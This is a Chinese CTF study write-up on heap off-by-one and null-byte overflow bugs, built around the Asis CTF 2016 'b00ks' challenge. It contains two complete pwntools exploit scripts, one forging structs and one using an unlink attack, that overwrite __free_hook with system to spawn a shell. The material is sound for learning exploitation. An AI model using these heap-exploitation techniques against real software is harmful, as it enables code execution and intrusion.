





堆中的 Off-By-One
绝大部分内容来自 CTF-WIKI ，内容引用用于学习记录
介绍
严格来说 off-by-one 漏洞是一种特殊的溢出漏洞，off-by-one 指程序向缓冲区中写入时，写入的字节数超过了这个缓冲区本身所申请的字节数并且只越界了一个字节。
off-by-one 漏洞原理
off-by-one 是指单字节缓冲区溢出，这种漏洞的产生往往与边界验证不严和字符串操作有关，当然也不排除写入的 size 正好就只多了一个字节的情况。其中边界验证不严通常包括
- 使用循环语句向堆块中写入数据时，循环的次数设置错误（这在 C 语言初学者中很常见）导致多写入了一个字节。
- 字符串操作不合适
一般来说，单字节溢出被认为是难以利用的，但是因为 Linux 的堆管理机制 ptmalloc 验证的松散性，基于 Linux 堆的 off-by-one 漏洞利用起来并不复杂，并且威力强大。 此外，需要说明的一点是 off-by-one 是可以基于各种缓冲区的，比如栈[^1]、bss 段等等，但是堆上（heap based） 的 off-by-one 是 CTF 中比较常见的。我们这里仅讨论堆上的 off-by-one 情况。
[^1]:最简单的是就是利用 off-by-one 泄露 Canary 的值
off-by-one 利用思路
- 溢出字节为可控制任意字节：通过修改大小造成块结构之间出现重叠，从而泄露其他块数据，或是覆盖其他块数据。也可使用 NULL 字节溢出的方法
- 溢出字节为 NULL 字节：在 size 为 0x100 的时候，溢出 NULL 字节可以使得
prev_in_use位被清，这样前块会被认为是 free 块[^2]。 - 这时可以选择使用 unlink 方法（见 unlink 部分）进行处理。
- 另外，这时
prev_inuse域就会启用，就可以伪造prev_inuse，从而造成块之间发生重叠。此方法的关键在于 unlink 的时候没有检查按照prev_inuse找到的块的大小与prev_inuse是否一致（libc 2.28 之前）。
[^2]:举个利用一个被分配的 chunk size 为 0x101 ，这是 prev_in_use 标记这个 chunk 是被使用状态，如果当我们 off-by-null 将size 覆盖为 0x100 ，那么这个 chunk 就被认为是 空闲状态
最新版本代码中，已加入针对 2 中后一种方法的 check ，但是在 2.28 前并没有该 check 。
/* consolidate backward */
if (!prev_inuse(p)) {
prevsize = prev_inuse (p);
size += prevsize;
p = chunk_at_offset(p, -((long) prevsize));
/* 后两行代码在最新版本中加入，则 2 的第二种方法无法使用，但是 2.28 及之前都没有问题 */
if (__glibc_unlikely (chunksize(p) != prevsize))
malloc_printerr ("corrupted size vs. prev_inuse while consolidating");
unlink_chunk (av, p);
}
示例 1
int my_gets(char *ptr,int size)
{
int i;
//这里写成小于等于导致可以多写入一个字节
for(i=0;i<=size;i++)
{
ptr[i]=getchar();
}
return i;
}
int main()
{
void *chunk1,*chunk2;
chunk1=malloc(16);
chunk2=malloc(16);
puts("Get Input:");
my_gets(chunk1,16);
return 0;
}
我们自己编写的 my_gets 函数导致了一个 off-by-one 漏洞，原因是 for 循环的边界没有控制好导致写入多执行了一次，这也被称为栅栏错误
wikipedia: 栅栏错误（有时也称为电线杆错误或者灯柱错误）是差一错误的一种。如以下问题：
建造一条直栅栏（即不围圈），长 30 米、每条栅栏柱间相隔 3 米，需要多少条栅栏柱？最容易想到的答案 10 是错的。这个栅栏有 10 个间隔，11 条栅栏柱。
我们使用 gdb 对程序进行调试，在进行输入前可以看到分配的两个用户区域为 16 字节的堆块
0x602000: 0x0000000000000000 0x0000000000000021 <=== chunk1
0x602010: 0x0000000000000000 0x0000000000000000
0x602020: 0x0000000000000000 0x0000000000000021 <=== chunk2
0x602030: 0x0000000000000000 0x0000000000000000
当我们执行 my_gets 进行输入之后，可以看到数据发生了溢出覆盖到了下一个堆块的 prev_inuse 域 print 'A'*17
0x602000: 0x0000000000000000 0x0000000000000021 <=== chunk1
0x602010: 0x4141414141414141 0x4141414141414141
0x602020: 0x0000000000000041 0x0000000000000021 <=== chunk2
0x602030: 0x0000000000000000 0x0000000000000000
示例 2
第二种常见的导致 off-by-one 的场景就是字符串操作了，常见的原因是字符串的结束符计算有误
int main(void)
{
char buffer[40]="";
void *chunk1;
chunk1=malloc(24);
puts("Get Input");
gets(buffer);
if(strlen(buffer)==24)
{
strcpy(chunk1,buffer);
}
return 0;
}
程序乍看上去没有任何问题（不考虑栈溢出），可能很多人在实际的代码中也是这样写的。 但是 strlen 和 strcpy 的行为不一致却导致了 off-by-one 的发生。 strlen 是我们很熟悉的计算 ascii 字符串长度的函数，strlen 在计算字符串长度时是不把结束符 \x00 计算在内的，但是 strcpy 在复制字符串时会拷贝结束符 \x00 。这就导致了我们向 chunk1 中写入了 25 个字节，我们使用 gdb 进行调试可以看到这一点。
0x602000: 0x0000000000000000 0x0000000000000021 <=== chunk1
0x602010: 0x0000000000000000 0x0000000000000000
0x602020: 0x0000000000000000 0x0000000000000411 <=== next chunk
在我们输入'A'*24 后执行 strcpy
0x602000: 0x0000000000000000 0x0000000000000021
0x602010: 0x4141414141414141 0x4141414141414141
0x602020: 0x4141414141414141 0x0000000000000400(11)
可以看到 next chunk 的 size 域低字节被结束符 '\x00' 覆盖，这种又属于 off-by-one 的一个分支称为 NULL byte off-by-one^3，我们在后面会看到 off-by-one 与 NULL byte off-by-one 在利用上的区别。 还是有一点就是为什么是低字节被覆盖呢，因为我们通常使用的 CPU 的字节序都是小端法的，比如一个 DWORD 值在使用小端法的内存中是这样储存的
DWORD 0x41424344
内存 0x44,0x43,0x42,0x41
实例 1: Asis CTF 2016 b00ks
WiKi上没有明确说明题目的环境，多方确认后：如果使用修改结构体指针实现任意地址写，环境应该是 ubuntu 18 ;如果使用 unlink 也就是 wiki 中的简洁方案，ubuntu16&18。
以下 wp 关于修改结构体指针方法都替换为我自己的版本
保护情况
题目是 64 位程序，保护如下所示。
Arch: amd64-64-little
RELRO: Full RELRO
Stack: No canary found
NX: NX enabled
PIE: PIE enabled
程序功能
题目是一个常见的选单式程序，功能是一个图书管理系统。程序提供了创建、删除、编辑、打印图书的功能。
1. Create a book
2. Delete a book
3. Edit a book
4. Print book detail
5. Change current author name
6. Exit
进入程序要求输入一个 author name 长度要求不大于32。
每本书（chunk）信息用大小为 0x20 的 book 结构体来维护，其中 name 和 description 在堆上分配，结构体中存储的是地址指针。book_name、book_description 大小自定且无限制大小。
详细结构体如下：（从 my_create 函数中结尾可推出结构体，下面是简化过的）
struct book
{
int id; //8bit
char *book_name; //8bit
char *book_description; //8bit
int size; //8bit
}
结构体申请好后，同一放置到 off_202010 列表中管理。
*((_QWORD *)off_202010 + v2) = book;
漏洞函数
程序编写定义的读入函数 sub_9F5() 存在 null byte off-by-one （后文称该函数为 my_read() ）。来看一下这个函数源码，注意留意最后一次循环的边界输入。
signed __int64 __fastcall my_read(_BYTE *a1, int a2)
{
int i; // [rsp+14h] [rbp-Ch]
_BYTE *buf; // [rsp+18h] [rbp-8h]
if ( a2 <= 0 )
return 0LL;
buf = a1;
for ( i = 0; ; ++i )
{
if ( (unsigned int)read(0, buf, 1uLL) != 1 )
return 1LL;
if ( *buf == 10 )
break;
++buf;
if ( i == a2 ) //没有正确处理最后一个字节写入位置
break;
}
*buf = 0; //漏洞点
return 0LL;
}
对比一下其他调用 my_read 函数的参数就知道为什么输入 author name 会出现 off-b-null ：
- description 可以放 v1 字节，传入参数为 v1-1 ，预留 1 字节
- name 可以放 v1 字节，传入参数为 v1-1 ，预留 1 字节
但是 my_name 可以放 32 字节，传入参数为 32 ，没有为最后结束符预留一个位置。
思路
off-by-one
溢出会影响到哪里？
我们先看看 author name 溢出的 \x00 会影响到哪里。先一段调试的 exp ，为了方便，在脚本中，输入 author name 为 "a"*0x32 ，在申请一个 book ，最后才调用 gdb ，程序打开 PIE 保护我们就打一个断点，方便计算偏移找到 name ：gdb.attach(p,"b *$rebase(0x0B94)") 。
先找到 name 和 chunk_list 真实地址：

chunk_list 在低地址，从它开始查内存：

可以看到实际上不是从 chunk_list 开始存放结构体指针，而是定向到了 0x555555756060 ，从这里开始记录结构体指针（这里我创建了两个 book ）。然后我们观察 name ，在结构体指针前面，name 溢出的会覆盖掉 book1 结构体指针。我们给一次 name 看看效果：

这样溢出之后，程序就会去 0x0000555555758300 找 book1 资料，而不是 0x0000555555758330 。那么如果我们能够在 0x0000555555758300 伪造一个 book 结构体，就能利用程序中的输出&修改功能，实现任意读写。程序是 Full RELRO ，就写 hook 。大概思路就是这么个思路，攻击流程：
- author name 填充 0x20 bit
- creat boo1 && book2，覆盖结束符
- print book1 info 从 author name 泄露 book1 结构体地址
- edit book1 description 填入 payload，构建 fake book1 结构体
- change author name 覆盖 book1 指针，让其指向 fake book1
- print book1 info 泄露 book2 地址（mmap地址）
- edit book1 来修改 book2 *description 指向 free_hook
- edit book2 修改 free_hook 为 one_gadget
泄漏 book1 结构体地址
因为程序中的 my_read 函数存在 null byte off-by-one ，事实上 my_read 读入的结束符 '\x00' 是写入到 0x555555756060 的位置的。这样当 0x555555756060～0x555555756068 写入 book 指针时就会覆盖掉结束符 '\x00' ，所以这里是存在一个地址泄漏的漏洞。通过打印 author name 就可以获得 pointer array 中第一项的值。
0x555555756040: 0x4141414141414141 0x4141414141414141
0x555555756050: 0x4141414141414141 0x4141414141414141 <== author name
0x555555756060: 0x0000555555758330 <== pointer array 0x0000000000000000
0x555555756070: 0x0000000000000000 0x0000000000000000
0x555555756080: 0x0000000000000000 0x0000000000000000
为了实现泄漏，首先在 author name 中需要输入 32 个字节来使得结束符被覆盖掉。之后我们创建 book1 ，这个 book1 的指针会覆盖 author name 中最后的 NULL 字节，使得该指针与 author name 直接连接，这样输出 author name 则可以获取到一个堆指针。
createname("A"*32)
createbook(128,"a"*8,32,"b"*8)
createbook(0x21000,"/bin/sh\x00",0x21000,"d"*8) # getshell用随带也先申请，对本步没有影响
book_id_1,book_name,book_des,book_author=printbook(1)
book1_addr=u64(book_author[32:32+6].ljust(8,'\x00'))
伪造结构体
程序中同样提供了一种 change 功能， change 功能用于修改 author name ，所以通过 change 可以写入 author name ，利用 off-by-one 覆盖 book1 的低字节。
覆盖掉 book1 指针的低字节后，这个指针会指向 book1 的 description [^4]，由于程序提供了 edit 功能可以任意修改 description 中的内容。我们可以提前在 description 中布置数据伪造成一个 book 结构，这个 book 结构的 description 和 name 指针可以由直接控制。
[^4]:为啥刚刚好就是在 book1 desc 里面？通过调试呗。注意在 Ubuntu 16 这里无法实现指向 book1 desc ，请看结尾补充
这里在 description 中伪造了 book ，使用的数据是 p64(1)+p64(book1_addr+0x38)+p64(book1_addr+0x40)+p64(0xffff) 。
其中 book1_addr+0x38 指向 book2 的 book_name 指针的存储地址；book1_addr+0x40 指向 book2 的 book_desc 指针的存储地址，使得我们可以任意修改 book2 指针值。

这样就是实现 edit book1 修改 book2 指针地址，edit book2 修改任意地址
log.success("book2_name_addr:"+hex(book1_addr+0x38))
log.success("book2_desc_addr:"+hex(book1_addr+0x40))
payload=p64(1)+p64(book1_addr+0x38)+p64(book1_addr+0x40)+p64(0xffff)
editbook(book_id_1,payload) # write fakechunk
泄露 libc 地址
前面我们已经获得了任意地址读写的能力，下面的操作是显而易见的，比如写 got 表劫持流程或者写 __malloc_hook 劫持流程等。但是这个题目特殊之处在于开启 PIE 并且没有泄漏 libc 基地址的方法，因此我们还需要想一下其他的办法。
这道题的巧妙之处在于在分配第二个 book 时，使用一个很大的尺寸，使得堆以 mmap 模式进行拓展。我们知道堆有两种拓展方式一种是 brk 会直接拓展原来的堆，另一种是 mmap 会单独映射一块内存。
在这里我们申请一个超大的块，来使用 mmap 扩展内存。因为 mmap 分配的内存与 libc 之前存在固定的偏移因此可以推算出 libc 的基地址。
pwndbg> x /4gx 0x0000555555758360
0x555555758360: 0x0000000000000002 0x00007ffff7fbc010
0x555555758370: 0x00007ffff7f9a010 0x0000000000021000
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
0x555555554000 0x555555556000 r-xp 2000 0 /home/skye/Desktop/CTF学习/chunk/asis-ctf-2016-b00ks/b00ks
0x555555755000 0x555555756000 r--p 1000 1000 /home/skye/Desktop/CTF学习/chunk/asis-ctf-2016-b00ks/b00ks
0x555555756000 0x555555757000 rw-p 1000 2000 /home/skye/Desktop/CTF学习/chunk/asis-ctf-2016-b00ks/b00ks
0x555555757000 0x555555778000 rw-p 21000 0 [heap]
0x7ffff79e4000 0x7ffff7bcb000 r-xp 1e7000 0 /lib/x86_64-linux-gnu/libc-2.27.so
0x7ffff7bcb000 0x7ffff7dcb000 ---p 200000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
0x7ffff7dcb000 0x7ffff7dcf000 r--p 4000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
0x7ffff7dcf000 0x7ffff7dd1000 rw-p 2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
0x7ffff7dd1000 0x7ffff7dd5000 rw-p 4000 0
0x7ffff7dd5000 0x7ffff7dfc000 r-xp 27000 0 /lib/x86_64-linux-gnu/ld-2.27.so
0x7ffff7f9a000 0x7ffff7fe0000 rw-p 46000 0
0x7ffff7ff7000 0x7ffff7ffa000 r--p 3000 0 [vvar]
0x7ffff7ffa000 0x7ffff7ffc000 r-xp 2000 0 [vdso]
0x7ffff7ffc000 0x7ffff7ffd000 r--p 1000 27000 /lib/x86_64-linux-gnu/ld-2.27.so
0x7ffff7ffd000 0x7ffff7ffe000 rw-p 1000 28000 /lib/x86_64-linux-gnu/ld-2.27.so
0x7ffff7ffe000 0x7ffff7fff000 rw-p 1000 0
0x7ffffffde000 0x7ffffffff000 rw-p 21000 0 [stack]
0xffffffffff600000 0xffffffffff601000 r-xp 1000 0 [vsyscall]
写入 __free_hook
可以写入 onegadget 也可以是 system ，如果是 system ，需要 free 的 book_name 是 /bin/sh 来传入参数。
exploit
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author : MrSkYe、CTF-WIKI
# @Email : skye231@foxmail.com
# @File : b00ks.py
from pwn import *
context.log_level="debug"
p=process("./b00ks")
elf=ELF("b00ks")
libc=ELF("./libc.so.6")
def createbook(name_size,name,des_size,des):
p.readuntil("> ")
p.sendline("1")
p.readuntil(": ")
p.sendline(str(name_size))
p.readuntil(": ")
p.sendline(name)
p.readuntil(": ")
p.sendline(str(des_size))
p.readuntil(": ")
p.sendline(des)
def printbook(id):
p.readuntil("> ")
p.sendline("4")
p.readuntil(": ")
for i in range(id):
book_id=int(p.readline()[:-1])
p.readuntil(": ")
book_name=p.readline()[:-1]
p.readuntil(": ")
book_des=p.readline()[:-1]
p.readuntil(": ")
book_author=p.readline()[:-1]
return book_id,book_name,book_des,book_author
def createname(name):
p.readuntil("name: ")
p.sendline(name)
def changename(name):
p.readuntil("> ")
p.sendline("5")
p.readuntil(": ")
p.sendline(name)
def editbook(book_id,new_des):
p.readuntil("> ")
p.sendline("3")
p.readuntil(": ")
p.writeline(str(book_id))
p.readuntil(": ")
p.sendline(new_des)
def deletebook(book_id):
p.readuntil("> ")
p.sendline("2")
p.readuntil(": ")
p.sendline(str(book_id))
# leak chunk1_stuct addr
createname("A"*32)
#gdb.attach(p,"b *$rebase(0x0B94)")
createbook(128,"a"*8,32,"b"*8)
createbook(0x21000,"/bin/sh\x00",0x21000,"d"*8)
book_id_1,book_name,book_des,book_author=printbook(1)
book1_addr=u64(book_author[32:32+6].ljust(8,'\x00'))
log.success("book1_address:"+hex(book1_addr))
# set fake chunk
log.success("book2_name_addr:"+hex(book1_addr+0x38))
log.success("book2_desc_addr:"+hex(book1_addr+0x40))
payload=p64(1)+p64(book1_addr+0x38)+p64(book1_addr+0x40)+p64(0xffff)
editbook(book_id_1,payload)
# overwrite chunk1_stuct addr 2 fake chunk
changename("A"*32)
book_id_1,book_name,book_des,book_author=printbook(1)
book2_name_addr=u64(book_name.ljust(8,"\x00"))
book2_des_addr=u64(book_des.ljust(8,"\x00"))
log.success("book2 name addr:"+hex(book2_name_addr))
log.success("book2 des addr:"+hex(book2_des_addr))
libc_base=book2_des_addr-0x5b6010#0x5b9010
log.success("libc base:"+hex(libc_base))
free_hook=libc_base+libc.symbols["__free_hook"]
log.success("free_hook:"+hex(free_hook))
system = libc_base+libc.symbols["system"]
'''
ne_gadget=libc_base+0x4f3c2 #0x4f2c5 0x10a38c 0x4f322
log.success("one_gadget:"+hex(one_gadget))
'''
# overwrite free_hook
# set chunk2_desc 2 free_hook
editbook(1,p64(free_hook))
# overwrite free_hook 2 system
editbook(2,p64(system))
deletebook(2)
p.interactive()
在Ubuntu16下出现情况
book1 结构体覆盖后指向的地址非常低，指向的地址变成是在一个莫名其妙的 chunk 里面无法实现伪造。

unlink
unlink就是wiki上的简便方法
基于前面 off-by-one ，或者具体一点是 off-by-null ，溢出一个空字节，总结一下题目情况：
- 程序中只要运用到自定义输入函数 my_read 就会存在溢出，溢出长度根据各个函数有所不同：处理 name 会溢出两个字节，其中一个字节是可控；其他函数会造成 off-by-null 。
如果刚刚入门学习 堆 题目，这里会比较绕，需要到 CTF-wiki 上把现代 unlink 攻击方法了解一下。
攻击过程概述
- 泄露 chunk 地址（这步和上面方法一样）
- 调整堆中结构，以便完成 unlink 。完成后我们就可以修改 chunk 4 的结构体。
- 将 chunk 4 结构体两个结构体指针分别指向 main_area 和 chunk 6 *desc ，这样我们就能泄露 libc 地址和获得一个任意读写的指针。
- 修改 chunk6 *desc 的指针为 __free_hook ；接着修改 __free_hook 为 system （或 onegadget ）。
泄露 chunk 地址
方法还是和前面一样，写入 0x20 的 author name ，然后申请一个 chunk 将 author name 的结束符覆盖掉。就能从 author name 泄露 chunk 地址：
p.recvuntil("author name: ")
p.sendline("skye".ljust(32,'a'))
create(0x20,'a'*8,0x20,'b'*8)#1
show()
调整堆结构
我们需要使用的是现代 unlink 需要伪造 fd、bk 指针。book name 限定最大 size 为 0x20 ，属于 fastbin 不会触发 unlink 合并。那么我们就把 book 456 的 desc 堆块布置到一起。
create(0x20,'c'*8,0x20,'d'*8)#2
create(0x20,'e'*8,0x20,'f'*8)#3
remove(2)
remove(3)
然后申请 456 heap ：
create(0x20,'g'*8,0x208,'h'*8)#4
# make sure chunk5size low bit is 01,or corruption (!prev)
create(0x20,'i'*8,0x200-0x10,'j'*8)#5
create(0x20,"/bin/sh\x00",0x200,'k'*8)#6
chunk4
chunk4 desc 用来伪造 fd、bk；被修改后的结构体用来修改 chunk6 desc 的指针，形成一个任意读写。
chunk4 申请的时候注意要用到 next_chunk 的 prev_size 位，方便我们伪造。
chunk5
chunk5 desc 需要 size （含chunk head）最低两个字节为 0x01 ，利用 off-by-null 覆盖为 0x00 ，prev_inuse 标记前面一个 chunk 是未使用的。如果申请出来的 size 不符合标准（eg：0x10），free 的时候会报错：
double free or corruption (!prev)
原因就是系统根据当前 chunk size 找下一个 chunk 的 prev_inuse 标志，然后我们覆盖之后改变的不只是 prev_inuse 整个size 都变了，找到的 next_chunk 也是错的。
chunk6
用来修改 __free_hook 。如果使用 system 将 book name 写入为 /bin/sh 就行了；使用 one_gadget 不需要。
在 chunk4 内伪造一个堆
用的是现代 unlink 实现的效果是： *ptr = ptr-0x18 。
ptr = heap_base + 0x1180# target addr
log.info("ptr:"+hex(ptr))
payload = p64(0)+p64(0x201)+ p64(ptr-0x18) + p64(ptr-0x10)
payload += '\x00'*0x1e0+p64(0x200)
edit(4,payload)
remove(5)# unlink *ptr = ptr-0x18
unlink 之后 chunk4 desc 指针将会指向结构体自身的某个地方，具体看图调试：

修改chunk4结构体
我选择将 book4 name 修改为存储 libc 的内存地址（也就是 book4 desc 某处）、book4 desc 修改为 chunk6 desc 指针地址。
payload = p64(0x31)+p64(0x4)+p64(heap_base+0x11e0)+p64(heap_base+0x10c0)
edit(4,payload)
show()
修改 __free_hook
payload = p64(free_hook)
edit(4,payload)
payload = p64(system)
edit(6,payload)
exp
from pwn import *
context.log_level = 'info'
p = process("./b00ks")
elf = ELF("./b00ks")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
def create(book_size, book_name, desc_size, desc):
p.recvuntil(">")
p.sendline(str(1))
p.sendlineafter(": ", str(book_size))
p.recvuntil(": ")
p.sendline(book_name)
p.recvuntil(": ")
p.sendline(str(desc_size))
p.sendline(desc)
def remove(idx):
p.recvuntil(">")
p.sendline(str(2))
p.sendlineafter(": ", str(idx))
def edit(idx, desc):
p.recvuntil(">")
p.sendline(str(3))
p.sendlineafter(": ", str(idx))
p.sendlineafter(": ", str(desc))
def show():
p.recvuntil(">")
p.sendline(str(4))
def author_name(name):
p.recvuntil(">")
p.sendline(str(5))
p.sendlineafter(": ", str(name))
p.recvuntil("author name: ")
p.sendline("skye".ljust(32,'a'))
create(0x20,'a'*8,0x20,'b'*8)#1
show()
p.recvuntil("skye".ljust(32,'a'))
first_heap = u64(p.recv(6).ljust(8,'\x00'))
log.info("first_heap:"+hex(first_heap))
heap_base = first_heap - 0x1080
log.info("heap_base:"+hex(heap_base))
create(0x20,'c'*8,0x20,'d'*8)#2
create(0x20,'e'*8,0x20,'f'*8)#3
remove(2)
remove(3)
create(0x20,'g'*8,0x208,'h'*8)#4 0x218
# make sure chunk5size low bit is 01,or corruption (!prev)
create(0x20,'i'*8,0x200-0x10,'j'*8)#5 0x200
create(0x20,"/bin/sh\x00",0x200,'k'*8)#6
ptr = heap_base + 0x1180# target addr
log.info("ptr:"+hex(ptr))
# fake chunk(0x200 2 chunk5)
payload = p64(0)+p64(0x201)+ p64(ptr-0x18) + p64(ptr-0x10)
payload += '\x00'*0x1e0+p64(0x200)
edit(4,payload)
# gdb.attach(p,"b *$rebase(0x202018)")
remove(5)# unlink *ptr = ptr-0x18
# FD->chunk4 desc fd
# BK->chunk6 struct desc
payload = p64(0x31)+p64(0x4)+p64(heap_base+0x11e0)+p64(heap_base+0x10c0)
edit(4,payload)
show()
p.recvuntil("Name: ")
p.recvuntil("Name: ")
main_area = u64(p.recv(6).ljust(8,'\x00'))
log.info("main_area:"+hex(main_area))
libc_base = main_area - 0x3c4b78
log.info("libc_base:"+hex(libc_base))
free_hook = libc_base + libc.symbols['__free_hook']
log.info("free_hook:"+hex(free_hook))
system = libc_base + libc.symbols['system']
log.info("system:"+hex(system))
payload = p64(free_hook)
edit(4,payload)
payload = p64(system)
edit(6,payload)
remove(6)
p.interactive()
小结
-
off-by-one 思路中通过申请一个非常大的 chunk ，让程序通过 mmap 分配内存，该内存地址与 libc 有固定偏移
-
程序自动分配的第一个堆，在师兄提醒下大概是因为程序没有初始化缓冲区，程序会自动申请一个堆用作缓存区。
-
现代 unlink
-
满足检查条件：
fakeFD -> bk == P<=>*(fakeFD + 12) == PfakeBK -> fd == P<=>*(fakeBK + 8) == P -
实现效果：
*P = P - 8*P = P - 12P 的指针指向了比自己低 12 的地址处
-
prev_size 是前一个 chunk 的大小（含 chunk head），简单计算方法：上一个 chunk 指针减去 next chunk 指针的值。
-
unlink 思路中计算错了 chunk 大小，触发了
double free or corruption (!prev)。最后查证是因为被释放 chunk size 被修改错误，导致找不到 next chunk 的 prev_inuse 信息而导致报错没有找到 chunk 的标志信息 -
RELRO: Full RELRO程序不能修改 got 表，我们就去修改 __malloc_hook、__free_hook 等 hook 函数，具体原理可以看源码，在进入 malloc 或者 free 会先去查对应的 hook 函数是否不会空，如果不为空则去执行 hook 指向的函数。 -
malloc 的参数是 int ，所以改 malloc 相关函数一般改为 onegadget
- free 的参数是 地址，所以改 free 相关函数可以改为 onegadget 或者 system 然后传入
/bin/sh字符串的地址